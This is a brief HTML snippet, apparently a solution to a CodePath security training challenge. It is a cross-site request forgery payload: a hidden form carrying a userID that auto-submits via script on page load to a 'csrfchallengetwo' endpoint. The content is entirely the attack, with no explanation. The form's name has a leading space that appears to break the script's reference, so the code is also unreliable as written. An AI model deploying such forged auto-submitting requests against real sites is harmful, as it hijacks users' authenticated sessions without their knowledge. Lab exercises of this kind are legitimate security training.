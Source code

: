 <form name=" csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
  <input type="hidden" name="userID" value="ef2c02d3c15d387c3e37fc9535cf1392e076689b" />
  <input type="submit"/>
</form>
<script> document.csrfForm.submit(); </script>
